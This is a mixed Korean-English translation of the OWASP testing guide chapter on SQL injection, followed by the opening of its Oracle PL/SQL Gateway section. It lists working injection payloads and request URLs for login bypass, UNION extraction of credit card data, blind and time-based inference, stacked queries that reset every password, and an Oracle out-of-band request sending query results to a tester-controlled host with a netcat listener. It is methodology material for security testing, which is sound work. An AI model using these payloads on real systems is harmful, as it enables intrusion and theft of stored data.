 ============================================================================================
OTG-INPVAL-005
============================================================================================

|

SQL 인젝션 침투 테스트

|

개요
============================================================================================

SQL 인젝션 공격은 클라이언트 브라우저로 부터 웹 어플리케이션으로 데이터 입력 또는 전송 폼을 통해 부분 또는 전체 SQL 쿼리를 삽입하는 것입니다.
성공적인 SQL 인젝션 공격은 데이터베이스로 부터 민감한 데이터를 읽거나, 수정, 실행, 복구 등을 할 수 있습니다.

일반적으로 웹 어플리케이션은 사용자가 입력한 데이터와 프로그래머에 의해 작성된 SQL 구문을 포함하여 구성되어 있습니다.

.. code-block:: html

    select title, text from news where id=$id 

위의 예제를 보면 $id는 사용자 입력 데이터이고, 나머지 SQL 구문은 프로그래머에 의해 작성된 것입니다.

이러한 구성 때문에, 사용자는 보통 SQL 구문에 사용자가 입력한 부분을 실행하도록 시도할 수 있습니다.


The example below illustrates the user-supplied data "10 or 1=1", changing the logic of the SQL statement, modifying the WHERE clause adding a condition "or 1=1". SQL Injection attacks can be divided into the following three classes: 

- Inband: data is extracted using the same channel that is used to inject the SQL code. 
검색 데이터가 어플리케이션 웹 페이지에 직접 표시되는 가장 간단한 공격 유형입니다.
- Out-of-band: data is retrieved using a different channel.
- Inferential 또는 Blind: there is no actual transfer of data, but the tester is able to reconstruct the information by sending particular requests and observing the resulting behavior of the DB Server. 

성공적인 SQL Injection 공격은 문법적으로 정확한 SQL 쿼리를 만들어야 합니다. 

If the application returns an error message generated by an incorrect query, then it may be easier for an attacker to reconstruct the logic of the original query and, therefore, understand how to perform the injection correctly. However, if the application hides the error details, then the tester must be able to reverse engineer the logic of the original query. 

About the techniques to exploit SQL injection flaws there are five commons techniques. Also those techniques sometimes can be used in a combined way (e.g. union operator and out-of-band): 
 
- Union 조작: can be used when the SQL injection flaw happens in a SELECT statement, making it possible to combine two queries into a single result or result set. 
- Boolean: use Boolean condition(s) to verify whether certain conditions are true or false. 
- Error 기반: this technique forces the database to generate an error, giving the attacker or tester information upon which to refine their injection. 
- Out-of-band: technique used to retrieve data using a different channel (e.g., make a HTTP connection to send the results to a web server). 
- Time delay: use database commands (e.g. sleep) to delay answers in conditional queries. It useful when attacker doesn't have some kind of answer (result, output, or error) from the application. 

|

테스트 방법
============================================================================================

탐지 기술
-----------------------------------------------------------------------------------------

The first step in this test is to understand when the application interacts with a DB Server in order to access some data. Typical examples of cases when an application needs to talk to a DB include: 
 
- Authentication forms: when authentication is performed using a web form, chances are that the user credentials are checked against a database that contains all usernames and passwords (or, better, password hashes). 
- Search engines: the string submitted by the user could be used in a SQL query that extracts all relevant records from a database. 
- E-Commerce sites: the products and their characteristics (price, description, availability, etc) are very likely to be stored in a database. 

The tester has to make a list of all input fields whose values could be used in crafting a SQL query, including the hidden fields of POST requests and then test them separately, trying to interfere with the query and to generate an error. Consider also HTTP headers and Cookies. 
The very first test usually consists of adding a single quote (') or a semicolon (;) to the field or parameter under test. The first is used in SQL as a string terminator and, if not filtered by the application, would lead to an incorrect query. The second is used to end a SQL statement and, if it is not filtered, it is also likely to generate an error. The output of a vulnerable field might resemble the following (on a Microsoft SQL Server, in this case): 

.. code-block:: html

    Microsoft OLE DB Provider for ODBC Drivers error '80040e14' 
    [Microsoft][ODBC SQL Server Driver][SQL Server]Unclosed 
    quotation mark before the 
    character string ''. 
    /target/target.asp, line 113

Also comment delimiters (-- or /* */, etc) and other SQL keywords like 'AND' and 'OR' can be used to try to modify the query. A very simple but sometimes still effective technique is simply to insert a string where a number is expected, as an error like the following might be generated: 

.. code-block:: html

    Microsoft OLE DB Provider for ODBC Drivers error '80040e07' 
    [Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error 
    converting the 
    varchar value 'test' to a column of data type int. 
    /target/target.asp, line 113 

Monitor all the responses from the web server and have a look at the HTML/javascript source code. Sometimes the error is present inside them but for some reason (e.g. javascript error, HTML comments, etc) is not presented to the user. A full error message, like those in the examples, provides a wealth of information to the tester in order to mount a successful injection attack. However, applications often do not provide so much detail: a simple '500 Server Error' or a custom error page might be issued, meaning that we need to use blind injection techniques. In any case, it is very important to test each field separately: only one variable must vary while all the other remain constant, in order to precisely understand which parameters are vulnerable and which are not. 

|

기본 SQL Injection 테스트
-----------------------------------------------------------------------------------------

Example 1 (classical SQL Injection)
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^


.. code-block:: html

    SELECT * FROM Users WHERE Username='$username' AND 
    Password='$password' 

일반적으로 웹 어플리케이션에서 사용자 인증을 위해 사용되는 쿼리입니다.

If the query returns a value it means that inside the database a user with that set of credentials exists, then the user is allowed to login to the system, otherwise access is denied. The values of the input fields are generally obtained from the user through a web form. Suppose we insert the following User-name and Password values: 

.. code-block:: html

    $username = 1' or '1' = '1
    $password = 1' or '1' = '1 

위 입력은 다음과 같이 입력될 것입니다.

.. code-block:: html

    SELECT * FROM Users WHERE Username='1' OR '1' = '1' AND 
    Password='1' OR '1' = '1' 

If we suppose that the values of the parameters are sent to the server through the GET method, and if the domain of the vulnerable web site is www.example.com, the request that we'll carry out will be: 

After a short analysis we notice that the query returns a value (or a set of values) because the condition is always true (OR 1=1). 

[Request URL]

.. code-block:: html

    http://www.example.com/index.php?username=1'%20or%20 
    '1'%20=%20'1&password=1'%20or%20'1'%20=%20'1 

In this way the system has authenticated the user without knowing the username and password. 
In some systems the first row of a user table would be an administrator user. This may be the profile returned in some cases. 

|

또 다른 예제 하나를 더 보겠습니다. 

.. code-block:: html

    SELECT * FROM Users WHERE ((Username='$username') AND 
    (Password=MD5('$password'))) 

이 경우 인젝션을 하기 위해 두 가지 문제를 해결해야 하는데, 하나는 괄호 사용이고 다른 하는 MD5 함수 사용입니다.
우선적으로, 괄호 사용 문제의 경우 괄호 개수에 맞게 닫힘 괄호를 입력해주어야 합니다.
두번째 문제인, MD5의 경우 주석 처리를 통해 함수가 처리되지 않도록 합니다.
모든 DBMS는 주속 구문을 가지고 있는데, 대다수 공통적으로 '/*'을 사용합니다.

.. code-block:: html

    $username = 1' or '1' = '1'))/* 

    $password = foo 

In this way, we'll get the following query: 

.. code-block:: html

    SELECT * FROM Users WHERE ((Username='1' or '1' = '1'))/*') AND 
    (Password=MD5('foo'))) 

(Due to the inclusion of a comment delimiter in the $username value the password portion of the query will be ignored.) 

[Request URL]

.. code-block:: html

    http://www.example.com/index.php?username=1'%20or%20 
    '1'%20=%20'1'))/*&password=foo

This may return a number of values. Sometimes, the authentication code verifies that the number of returned records/results is exactly equal to 1. In the previous examples, this situation would be difficult (in the database there is only one value per user). In order to go around this problem, it is enough to insert a SQL command that imposes a condition that the number of the returned results must be one. (One record returned) In order to reach this goal, we use the operator "LIMIT <num>", where <num> is the number of the results/records that we want to be returned. With respect to the previous example, the value of the fields Username and Password will be modified as follows: 

.. code-block:: html

    $username = 1' or '1' = '1')) LIMIT 1/* 

    $password = foo 

[Request URL]

.. code-block:: html

    http://www.example.com/index.php?username=1'%20or%20 
    '1'%20=%20'1'))%20LIMIT%201/*&password=foo 

|

Example 2 (simple SELECT statement): Consider the following SQL query: 
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

.. code-block:: html

    SELECT * FROM products WHERE id_product=$id_product 

Consider also the request to a script who executes the query above: 

.. code-block:: html

    http://www.example.com/product.php?id=10 

When the tester tries a valid value (e.g. 10 in this case), the application will return the description of a product. A good way to test if the application is vulnerable in this scenario is play with logic, using the operators AND and OR. 

Consider the request: 

.. code-block:: html

    http://www.example.com/product.php?id=10 AND 1=2 
    
    SELECT * FROM products WHERE id_product=10 AND 1=2 

In this case, probably the application would return some message telling us there is no content available or a blank page. Then the tester can send a true statement and check if there is a valid result: 

.. code-block:: html

    http://www.example.com/product.php?id=10 AND 1=1 

|

Example 3 (Stacked queries): 
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Depending on the API which the web application is using and the DBMS (e.g. PHP + PostgreSQL, ASP+SQL SERVER) it may be possible to execute multiple queries in one call. 


Consider the following SQL query: 

.. code-block:: html

    SELECT * FROM products WHERE id_product=$id_product 

A way to exploit the above scenario would be: 

.. code-block:: html

    http://www.example.com/product.php?id=10; INSERT INTO 
    users (...) 

This way is possible to execute many queries in a row and independent of the first query. 

|

Fingerprinting the Database 
-----------------------------------------------------------------------------------------

Even the SQL language is a standard, every DBMS has its peculiarity and differs from each other in many aspects like special commands, functions to retrieve data such as users names and databases, features, comments line etc. 

When the testers move to a more advanced SQL injection exploitation they need to know what the back end database is. 

1. The first way to find out what back end database is used is by observing the error returned by the application. Follow are some examples: 


**MySql:**

You have an error in your SQL syntax; check the manual 
that corresponds to your MySQL server version for the 
right syntax to use near '\'' at line 1 

**Oracle:**

ORA-00933: SQL command not properly ended 

**MS SQL Server:**

Microsoft SQL Native Client error '80040e14' 
Unclosed quotation mark after the character string 

**PostgreSQL:**

Query failed: ERROR: syntax error at or near 
"'" at character 56 in /www/site/test.php on line 121. 

2. If there is no error message or a custom error message, the tester can try to inject into string field using concatenation technique: 

|

Exploitation Techniques 
-----------------------------------------------------------------------------------------

Union Exploitation Technique
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^ 

The UNION operator is used in SQL injections to join a query, purposely forged by the tester, to the original query. The result of the forged query will be joined to the result of the original query, allowing the tester to obtain the values of columns of other tables. Suppose for our examples that the query executed from the server is the following: 

.. code-block:: html

    SELECT Name, Phone, Address FROM Users WHERE Id=$id

We will set the following $id value: 

.. code-block:: html

    $id=1 UNION ALL SELECT creditCardNumber,1,1 FROM Credit-
    CardTable

We will have the following query: 

.. code-block:: html

    SELECT Name, Phone, Address FROM Users WHERE Id=1 
    UNION ALL SELECT creditCardNumber,1,1 FROM CreditCard-
    Table 

Which will join the result of the original query with all the credit card numbers in the CreditCardTable table. The keyword ALL is necessary to get around queries that use the keyword DISTINCT. Moreover, we notice that beyond the credit card numbers, we have selected other two values. These two values are necessary, because the two queries must have an equal number of parameters/columns, in order to avoid a syntax error. 

The first detail a tester needs to exploit the SQL injection vulnerability using such technique is to find the right numbers of columns in the SELECT statement. In order to achieve this the tester can use ORDER BY clause followed by a number indicating the numeration of database's column selected: 

.. code-block:: html

    http://www.example.com/product.php?id=10 ORDER BY 10--

If the query executes with success the tester can assume, in this example, there are 10 or more columns in the SELECT statement. If the query fails then there must be fewer than 10 columns returned by the query. If there is an error message available, it would probably be: 

.. code-block:: html

    Unknown column '10' in 'order clause' 

After the tester finds out the numbers of columns, the next step is to find out the type of columns. Assuming there were 3 columns in the example above, the tester could try each column type, using the NULL value to help them: 

.. code-block:: html

    http://www.example.com/product.php?id=10 UNION SELECT
    1,null,null--

If the query fails, the tester will probably see a message like: 

.. code-block:: html

    All cells in a column must have the same datatype 

If the query executes with success, the first column can be an integer. Then the tester can move further and so on: 

.. code-block:: html

    http://www.example.com/product.php?id=10 UNION SELECT 
    1,1,null-

After the successful information gathering, depending on the application, it may only show the tester the first result, because the application treats only the first line of the result set. In this case, it is possible to use a LIMIT clause or the tester can set an invalid value, making only the second query valid (supposing there is no entry in the database which ID is 99999): 

.. code-block:: html

    http://www.example.com/product.php?id=99999 UNION 
    SELECT 1,1,null-


Boolean Exploitation Technique 
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

The Boolean exploitation technique is very useful when the tester finds a Blind SQL Injection situation, in which nothing is known on the outcome of an operation. For example, this behavior happens in cases where the programmer has created a custom error page that does not reveal anything on the structure of the query or on the database. (The page does not return a SQL error, it may just return a HTTP 500, 404, or redirect). 
By using inference methods, it is possible to avoid this obstacle and thus to succeed in recovering the values of some desired fields. This method consists of carrying out a series of boolean queries against the server, observing the answers and finally deducing the meaning of such answers. We consider, as always, the www.example.com domain and we suppose that it contains a parameter named id vulnerable to SQL injection. This means that carrying out the following request: 
http://www.example.com/index.php?id=1' 
We will get one page with a custom message error which is due to a syntactic error in the query. We suppose that the query executed on the server is: 
SELECT field1, field2, field3 FROM Users WHERE Id='$Id' 
Which is exploitable through the methods seen previously. What we want to obtain is the values of the username field. The tests that we will execute will allow us to obtain the value of the user-name field, extracting such value character by character. This is possible through the use of some standard functions, present in practically every database. For our examples, we will use the following pseudo-functions: 
SUBSTRING (text, start, length): returns a substring starting from the position "start" of text and of length "length". I f "start" is greater than the length of text, the function returns a null value. 
ASCII (char): it gives back ASCII value of the input character. A null value is returned if char is 0. 
LENGTH (text): it gives back the number of characters in the input text. 
Through such functions, we will execute our tests on the first character and, when we have discovered the value, we will pass to the second and so on, until we will have discovered the entire value. The tests will take advantage of the function SUBSTRING, in order to select only one character at a time (selecting a single character means to impose the length parameter to 1), and the function ASCII, in order to obtain the ASCII value, so that we can do numerical comparison. The results of the comparison will be done with all the values of the ASCII table, until the right value is found. As an example, we will use the following value for Id: 
$Id=1' AND ASCII(SUBSTRING(username,1,1))=97 AND '1'='1 
That creates the following query (from now on, we will call it "inferential query"): 
SELECT field1, field2, field3 FROM Users WHERE Id='1' AND 
ASCII(SUBSTRING(username,1,1))=97 AND '1'='1' 
The previous example returns a result if and only if the first character of the field username is equal to the ASCII value 97. If we get a false value, then we increase the index of the ASCII table from 97 to 98 and we repeat the request. If instead we obtain a true value, we set to zero the index of the ASCII table and we analyze the next character, modifying the parameters of the SUBSTRING function. The problem is to understand in which way we can distinguish tests returning a true value from those that return false. To do this, we create a query that always returns false. This is possible by using the following value for Id: 
$Id=1' AND '1' = '2 
Which will create the following query: 
SELECT field1, field2, field3 FROM Users WHERE Id='1' AND '1' 
= '2' 
The obtained response from the server (that is HTML code) will be the false value for our tests. This is enough to verify whether the value obtained from the execution of the inferential query is equal to the value obtained with the test executed before. Sometimes, this method does not work. If the server returns two different pages as a result of two identical consecutive web requests, we will not be able to discriminate the true value from the false value. In these particular cases, it is necessary to use particular filters that allow us to eliminate the code that changes between the two requests and to obtain a template. Later on, for every inferential request executed, we will extract the relative template from the response using the same function, and we will perform a control between the two templates in order to decide the result of the test. 


In the previous discussion, we haven't dealt with the problem of determining the termination condition for out tests, i.e., when we should end the inference procedure. A techniques to do this uses one characteristic of the SUBSTRING function and the LENGTH function. When the test compares the current character with the ASCII code 0 (i.e., the value null) and the test returns the value true, then either we are done with the inference procedure (we have scanned the whole string), or the value we have analyzed contains the null character. We will insert the following value for the field Id: 
$Id=1' AND LENGTH(username)=N AND '1' = '1 
Where N is the number of characters that we have analyzed up to now (not counting the null value). The query will be: 
SELECT field1, field2, field3 FROM Users WHERE Id='1' AND 
LENGTH(username)=N AND '1' = '1' 
The query returns either true or false. If we obtain true, then we have completed the inference and, therefore, we know the value of the parameter. If we obtain false, this means that the null character is present in the value of the parameter, and we must continue to analyze the next parameter until we find another null value. 
The blind SQL injection attack needs a high volume of queries. The tester may need an automatic tool to exploit the vulnerability. 
Error based Exploitation technique 
An Error based exploitation technique is useful when the tester for some reason can't exploit the SQL injection vulnerability using other technique such as UNION. The Error based technique consists in forcing the database to perform some operation in which the result will be an error. The point here is to try to extract some data from the database and show it in the error message. This exploitation technique can be different from DBMS to DBMS (check DBMS specific section). Consider the following SQL query: 
SELECT * FROM products WHERE id_product=$id_product 
Consider also the request to a script who executes the query above: 
http://www.example.com/product.php?id=10 
The malicious request would be (e.g. Oracle 10g): 
http://www.example.com/product.php?id=10||UTL_INADDR. 
GET_HOST_NAME( (SELECT user FROM DUAL) )-
In this example, the tester is concatenating the value 10 with the result of the function UTL_INADDR.GET_HOST_NAME. This Oracle function will try to return the host name of the parameter passed to it, which is other query, the name of the user. When the database looks for a host name with the user database name, it will fail and return an error message like: 
ORA-292257: host SCOTT unknown 
Then the tester can manipulate the parameter passed to GET_ HOST_NAME() function and the result will be shown in the error message. 
Out of band Exploitation technique 
This technique is very useful when the tester find a Blind SQL Injection situation, in which nothing is known on the outcome of an operation. The technique consists of the use of DBMS functions to perform an out of band connection and deliver the results of the injected query as part of the request to the tester's server. Like the error based techniques, each DBMS has its own functions. Check for specific DBMS section. 
Consider the following SQL query: 
SELECT * FROM products WHERE id_product=$id_product 
Consider also the request to a script who executes the query above: 
http://www.example.com/product.php?id=10 
The malicious request would be: 
http://www.example.com/product.php?id=10||UTL_HTTP. 
request('testerserver.com:80'||(SELET user FROM DUAL)-
In this example, the tester is concatenating the value 10 with the result of the function UTL_HTTP.request. This Oracle function will try to connect to 'testerserver' and make a HTTP GET request containing the return from the query "SELECT user FROM DUAL". The tester can set up a webserver (e.g. Apache) or use the Netcat tool: 
/home/tester/nc .nLp 80 
GET /SCOTT HTTP/1.1 Host: testerserver.com Connection: close 
Time delay Exploitation technique 
The Boolean exploitation technique is very useful when the tester find a Blind SQL Injection situation, in which nothing is known on the outcome of an operation. This technique consists in sending an injected query and in case the conditional is true, the tester can monitor the time taken to for the server to respond. If there is a delay, the tester can assume the result of the conditional query is true. This exploitation technique can be different from DBMS to DBMS (check DBMS specific section). 
Consider the following SQL query: 
SELECT * FROM products WHERE id_product=$id_product Consider also the request to a script who executes the query above: 


http://www.example.com/product.php?id=10 
The malicious request would be (e.g. MySql 5.x): 
http://www.example.com/product.php?id=10 AND IF(version() 
like '5%', sleep(10), 'false'))-
In this example the tester if checking whether the MySql version is 
5.x or not, making the server to delay the answer by 10 seconds. The tester can increase the delay time and monitor the responses. The tester also doesn't need to wait for the response. Sometimes he can set a very high value (e.g. 100) and cancel the request after some seconds. 
Stored Procedure Injection 
When using dynamic SQL within a stored procedure, the application must properly sanitize the user input to eliminate the risk of code injection. If not sanitized, the user could enter malicious SQL that will be executed within the stored procedure. 
Consider the following SQL Server Stored Procedure: 
Create procedure user_login @username varchar(20), @passwd varchar(20) As Declare @sqlstring varchar(250) Set @sqlstring = ' Select 1 from users Where username = ' + @username + ' and passwd = ' + @passwd exec(@sqlstring) Go 
User input: anyusername or 1=1' anypassword 
This procedure does not sanitize the input, therefore allowing the return value to show an existing record with these parameters. 
NOTE: This example may seem unlikely due to the use of dynamic SQL to log in a user, but consider a dynamic reporting query where the user selects the columns to view. The user could insert malicious code into this scenario and compromise the data. Consider the following SQL Server Stored Procedure: 
Create procedure get_report @columnamelist varchar(7900) As Declare @sqlstring varchar(8000) Set @sqlstring = ' Select ' + @ columnamelist + ' from ReportTable' exec(@sqlstring) Go 
User input: 
1 from users; update users set password = 'password'; select * 
This will result in the report running and all users' passwords being updated. 
Automated Exploitation 
Most of the situation and techniques presented here can be performed in a automated way using some tools. In this article the tester can find information how to perform an automated auditing using SQLMap: 
https:/
www.owasp.org/index.php/Automated_Audit_using_ SQLMap 

|

Tools 
============================================================================================

- SQL Injection Fuzz Strings (from wfuzz tool): https://wfuzz.googlecode.com/svn/trunk/wordlist/Injections/ SQL.txt 
- OWASP SQLiX 
- Francois Larouche: Multiple DBMS SQL Injection tool - SQL Power Injector 
- ilo--, Reversing.org -sqlbftools 
- Bernardo Damele A. G.: sqlmap, automatic SQL injection tool: http://sqlmap.org/ 
- icesurfer: SQL Server Takeover Tool -sqlninja 
- Pangolin: Automated SQL Injection Tool -Pangolin 
- Muhaimin Dzulfakar: MySqloit, MySql Injection takeover tool: http://code.google.com/p/mysqloit/ 
- Antonio Parata: Dump Files by SQL inference on Mysql: SqlDumper 
- bsqlbf, a blind SQL injection tool in Perl 

|

References 
============================================================================================

- Top 10 2013-A1-Injection 
- SQL Injection Technology specific Testing Guide pages have been created for the following DBMSs: 
- Oracle 
- MySQL 
- SQL Server 

|

Whitepapers 
-------------------------------------------------------------------------------------------

- Victor Chapela: "Advanced SQL Injection": http://www.owasp.org/images/7/74/Advanced_SQL_Injection. ppt 
- Chris Anley: "Advanced SQL Injection In SQL Server Applications": https://sparrow.ece.cmu.edu/group/731-s11/readings/anleysql-inj.pdf 
- Chris Anley: "More Advanced SQL Injection": http://www.encription.co.uk/downloads/more_advanced_sql_ injection.pdf 
- David Litchfield: "Data-mining with SQL Injection and Inference": http://www.databasesecurity.com/webapps/sqlinference.pdf 
- Imperva: "Blinded SQL Injection": https://www.imperva.com/lg/ lgw.asp?pid=369 
- Ferruh Mavituna: "SQL Injection Cheat Sheet": http://ferruh.mavituna.com/sql-injection-cheatsheet-oku/ 
- Kevin Spett from SPI Dynamics: "SQL Injection": https://docs.google.com/file/ 
d/0B5CQOTY4YRQCSWRHNkNaaFMyQTA/edit 
- Kevin Spett from SPI Dynamics: "Blind SQL Injection": http://www.net-security.org/dl/articles/Blind_SQLInjection.pdf 

|

|

============================================================================================
Oracle 테스트
============================================================================================

개요
============================================================================================

Web based PL/SQL applications are enabled by the PL/SQL Gateway, which is is the component that translates web requests into database queries. Oracle has developed a number of software implementations, ranging from the early web listener product to the Apache mod_plsql module to the XML Database (XDB) web server. All have their own quirks and issues, each of which will be thoroughly investigated in this chapter. Products that use the PL/SQL Gateway include, but are not limited to, the Oracle HTTP Server, eBusiness Suite, Portal, HTMLDB, WebDB and Oracle Application Server. 

|

테스트 방법
============================================================================================

How the PL/SQL Gateway works 
Essentially the PL/SQL Gateway simply acts as a proxy server taking the user's web request and passes it on to the database server where it is executed. 
[1] The web server accepts a request from a web client and determines if it should be processed by the PL/SQL Gateway. 
[2] The PL/SQL Gateway processes the request by extracting the requested package name, procedure, and variables. 
[3] The requested package and procedure are wrapped in a block of anonymous PL/SQL, and sent to the database server. 
[4] The database server executes the procedure and sends the results back to the Gateway as HTML. 
[5] The gateway sends the response, via the web server, back to the client. 
Understanding this point is important - the PL/SQL code does not exist on the web server but, rather, in the database server. This means that any weaknesses in the PL/SQL Gateway or any weaknesses in the PL/SQL application, when exploited, give an attacker direct access to the database server; no amount of firewalls will prevent this. 
URLs for PL/SQL web applications are normally easily recognizable and generally start with the following (xyz can be any string and represents a Database Access Descriptor, which you will learn more about later): 
http://www.example.com/pls/xyz 
http://www.example.com/xyz/owa 
http://www.example.com/xyz/plsql 
While the second and third of these examples represent URLs from older versions of the PL/SQL Gateway, the first is from more recent versions running on Apache. In the plsql.conf Apache configuration file, /pls is the default, specified as a Location with the PLS module as the handler. The location need not be /pls, however. The absence of a file extension in a URL could indicate the presence of the Oracle PL/SQL Gateway. Consider the following URL: 
http://www.server.com/aaa/bbb/xxxxx.yyyyy 
If xxxxx.yyyyy were replaced with something along the lines of "ebank. home," "store.welcome," "auth.login," or "books.search," then there's a fairly strong chance that the PL/SQL Gateway is being used. It is also possible to precede the requested package and procedure with the name of the user that owns it - i.e. the schema - in this case the user is "webuser": 
http://www.server.com/pls/xyz/webuser.pkg.proc 
In this URL, xyz is the Database Access Descriptor, or DAD. A DAD specifies information about the database server so that the PL/SQL Gateway can connect. It contains information such as the TNS connect string, the user ID and password, authentication methods, and so on. These DADs are specified in the dads.conf Apache configuration file in more recent versions or the wdbsvr.app file in older versions. Some default DADs include the following: 
SIMPLEDAD 
HTMLDB 
ORASSO 
SSODAD 
PORTAL 
PORTAL2 
PORTAL30 
PORTAL30_SSO 
TEST 
DAD 
APP 
ONLINE 
DB 
OWA 

Determining if the PL/SQL Gateway is running 
When performing an assessment against a server, it's important first to know what technology you're actually dealing with. If you don't already know, for example, in a black box assessment scenario, then the first thing you need to do is work this out. Recognizing a web based PL/SQL application is pretty easy. First, there is the format of the URL and what it looks like, discussed above. Beyond that there are a set of simple tests that can be performed to test for the existence of the PL/ SQL Gateway. 
Server response headers 
The web server's response headers are a good indicator as to whether the server is running the PL/SQL Gateway. The table below lists some of the typical server response headers: 
Oracle-Application-Server-10g Oracle-Application-Server-10g/10.1.2.0.0 Oracle-HTTP-Server Oracle-Application-Server-10g/9.0.4.1.0 Oracle-HTTP-Server Oracle-Application-Server-10g OracleAS-Web-Cache10g/9.0.4.2.0 (N) Oracle-Application-Server-10g/9.0.4.0.0 Oracle HTTP Server Powered by Apache Oracle HTTP Server Powered by Apache/1.3.19 (Unix) mod_ plsql/3.0.9.8.3a Oracle HTTP Server Powered by Apache/1.3.19 (Unix) mod_ plsql/3.0.9.8.3d Oracle HTTP Server Powered by Apache/1.3.12 (Unix) mod_ plsql/3.0.9.8.5e Oracle HTTP Server Powered by Apache/1.3.12 (Win32) mod_ plsql/3.0.9.8.5e Oracle HTTP Server Powered by Apache/1.3.19 (Win32) mod_ plsql/3.0.9.8.3c Oracle HTTP Server Powered by Apache/1.3.22 (Unix) mod_ plsql/3.0.9.8.3b Oracle HTTP Server Powered by Apache/1.3.22 (Unix) mod_ plsql/9.0.2.0.0 Oracle_Web_Listener/4.0.7.1.0EnterpriseEdition Oracle_Web_Listener/4.0.8.2EnterpriseEdition Oracle_Web_Listener/4.0.8.1.0EnterpriseEdition Oracle_Web_listener3.0.2.0.0/2.14FC1 Oracle9iAS/9.0.2 Oracle HTTP Server Oracle9iAS/9.0.3.1 Oracle HTTP Server 


The NULL test 
In PL/SQL, "null" is a perfectly acceptable expression: 
SQL> BEGIN
 2 NULL;
 3 END;
 4 / 
PL/SQL procedure successfully completed. 
We can use this to test if the server is running the PL/SQL Gateway. Simply take the DAD and append NULL, then append NOSUCHPROC: 
http://www.example.com/pls/dad/null 
http://www.example.com/pls/dad/nosuchproc 
If the server responds with a 200 OK response for the first and a 404 Not Found for the second then it indicates that the server is running the PL/SQL Gateway. 
Known package access 
On older versions of the PL/SQL Gateway, it is possible to directly access the packages that form the PL/SQL Web Toolkit such as the OWA and HTP packages. One of these packages is the OWA_UTIL package, which we'll speak about more later on. This package contains a procedure called SIGNATURE and it simply outputs in HTML a PL/SQL signature. Thus requesting 
"This page was produced by the PL/SQL Web Toolkit on date" 
returns the following output on the webpage 
"This page was produced by the PL/SQL Cartridge on date" 
or "This page was produced by the PL/SQL Cartridge on date" 
If you don't get this response but a 403 Forbidden response then you can infer that the PL/SQL Gateway is running. This is the response you should get in later versions or patched systems. 
Accessing Arbitrary PL/SQL Packages in the Database 
